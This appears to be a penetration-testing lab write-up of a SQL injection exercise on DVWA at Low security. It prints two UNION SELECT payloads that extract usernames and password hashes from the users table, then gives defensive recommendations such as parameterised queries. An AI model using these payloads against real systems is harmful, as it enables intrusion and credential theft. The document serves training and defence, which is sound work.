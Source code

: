 # SQL Injection – Level: Low

## 🔍 Extended Payload Used

```
1 UNION SELECT user, password FROM users LIMIT 1,1
1 UNION SELECT user, password FROM users LIMIT 2,1
```

## ✅ Result

- **ID:** `1 UNION SELECT user, password FROM users LIMIT 1,1 1 UNION SELECT user, password FROM users LIMIT 2,1`
- **First name:** `admin`
- **Surname:** `admin`
- **No error appeared**, and the injection successfully displayed credentials from the `users` table.

## 🖼️ Screenshots

### Screenshot 1 – Single record output:
![SQLI-1](/SQLI-1.png)

### Screenshot 2 – HTML structure of output:
![SQLI-2](/SQLI-2.png)

## 🛠️ Recommendation

To prevent SQL injection on this level, it's recommended to:

- Use **prepared statements** with bound parameters (e.g., `mysqli_prepare()` or `PDO::prepare()` in PHP).
- Implement **server-side input validation** and type checking.
- Use **least privilege** for DB users.
- **Disable detailed SQL errors** in production environments.
- Apply **Web Application Firewall (WAF)** for extra protection.

## 👤 Tester

**Name:** Tetiana Trunova  
**Platform:** DVWA – SQL Injection (Low)  
**Environment:**  
- Kali Linux (Attacker)  
- Ubuntu (DVWA Target)  
- Browser DevTools used for inspection

## 🧩 Conclusion

The SQL Injection vulnerability on Low level allowed direct injection of arbitrary SQL via the `id` parameter. Using the `UNION SELECT` technique and adjusting the column count, we successfully extracted usernames and hashed passwords from the `users` table. This highlights the critical risk of unsanitized input and reinforces the importance of using parameterized queries and secure development practices.
